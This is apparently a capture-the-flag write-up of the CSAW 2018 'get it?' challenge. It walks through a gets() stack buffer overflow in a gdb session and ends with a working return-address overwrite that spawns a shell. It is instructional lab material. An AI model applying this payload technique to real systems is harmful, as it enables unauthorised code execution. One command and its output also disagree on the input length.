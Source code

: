 # get it? CSAW 2018 Qualification Round

Let's start by looking at the file we are given.

```
$ file get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
```

It is an x86_64 executable.  Now let's run it and see what happens.

```
$ ./get_it
Do you gets it??
maybe
```

The program prints a line and then waits for user input, which inputted main.  Now what happens if a lot of A's are provided as the input?

```
$ python2 -c "print 'A'*50" | ./get_it
Do you gets it??
[1]    3630 done                              python2 -c "print 'A'*500" | 
       3631 segmentation fault (core dumped)  ./get_it
```

Okay, there appears to be a segfault.  Let's run it in gdb and generate a pattern to be used as the input.

```
$ gdb get_it
gef➤  pattern create 50
[+] Generating a pattern of 50 bytes
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga
[+] Saved as '$_gef0'
gef➤  r
Starting program: /home/steven/ctf/csaw/pwn/get_it/get_it 
Do you gets it??
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga

Program received signal SIGSEGV, Segmentation fault.
0x00000000004005f7 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x7ffff7f7d860      →  0x00000000fbad2288
$rdx   : 0x7ffff7f7f730      →  0x0000000000000000
$rsp   : 0x7fffffffdc28      →  "faaaaaaaga"
$rbp   : 0x6161616161616165 ("eaaaaaaa"?)
$rsi   : 0x602671            →  "aaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga"
$rdi   : 0x7fffffffdc01      →  "aaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga"
$rip   : 0x4005f7            →  <main+48> ret 
$r8    : 0x6026a3            →  0x0000000000000000
$r9    : 0x0               
$r10   : 0x7ffff7f84500      →  0x00007ffff7f84500  →  [loop detected]
$r11   : 0x246             
$r12   : 0x4004c0            →  <_start+0> xor ebp, ebp
$r13   : 0x7fffffffdd00      →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$gs: 0x0000  $ss: 0x002b  $cs: 0x0033  $es: 0x0000  $ds: 0x0000  $fs: 0x0000  
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
0x00007fffffffdc28│+0x00: "faaaaaaaga"	 ← $rsp
0x00007fffffffdc30│+0x08: 0x0000000000006167 ("ga"?)
0x00007fffffffdc38│+0x10: 0x00007fffffffdd08  →  0x00007fffffffe01d  →  "/home/steven/ctf/csaw/pwn/get_it/get_it"
0x00007fffffffdc40│+0x18: 0x0000000100040000
0x00007fffffffdc48│+0x20: 0x00000000004005c7  →  <main+0> push rbp
0x00007fffffffdc50│+0x28: 0x0000000000000000
0x00007fffffffdc58│+0x30: 0xe2edf0fa2a79dedd
0x00007fffffffdc60│+0x38: 0x00000000004004c0  →  <_start+0> xor ebp, ebp
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386:x86-64 ]────
     0x4005ec <main+37>        call   0x4004a0 <gets@plt>
     0x4005f1 <main+42>        mov    eax, 0x0
     0x4005f6 <main+47>        leave  
 →   0x4005f7 <main+48>        ret    
[!] Cannot disassemble from $PC
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "get_it", stopped, reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x4005f7 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern search $rsp
[+] Searching '$rsp'
[+] Found at offset 40 (little-endian search) likely
[+] Found at offset 33 (big-endian search) 
gef➤  
```

As can be seen above, the return address that is being overwritten is 40 characters into the user input.  So now we can overwrite the return address, but where should we jump to?

```
gef➤  checksec
[+] checksec for '/home/steven/ctf/csaw/pwn/get_it/get_it'
Canary                        : No
NX                            : Yes
PIE                           : No
Fortify                       : No
RelRO                         : Partial
```

As can be seen above, NX is enabled.  This means we can't just jump to shellcode.  Therefore, we need to use ROP.  Except, doing a quick objdump on the file reveals something interesting.

```
$ objdump -M intel -d get_it
...
00000000004005b6 <give_shell>:
  4005b6:	55                   	push   rbp
  4005b7:	48 89 e5             	mov    rbp,rsp
  4005ba:	bf 84 06 40 00       	mov    edi,0x400684
  4005bf:	e8 bc fe ff ff       	call   400480 <system@plt>
  4005c4:	90                   	nop
  4005c5:	5d                   	pop    rbp
  4005c6:	c3                   	ret    
...
```

Okay so we can just overwrite the return address to give_shell, since this function appears to launch /bin/sh.  Let's try that.

```
$ (python2 -c "print 'A'*40+'\xb6\x05\x40\x00\x00\x00\x00\x00'"; cat) | ./get_it
Do you gets it??
cat flag.txt
flag here
whoami
steven
```

As can be seen above, we have successfully overwritten the return address to give_shell which launched /bin/sh!

The flag for this challenge was:

```
flag{y0u_deF_get_itls}
```
